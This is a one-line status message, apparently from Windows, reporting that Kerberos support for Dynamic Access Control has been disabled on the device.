Kerberos support for Dynamic Access Control on this device has been disabled.
```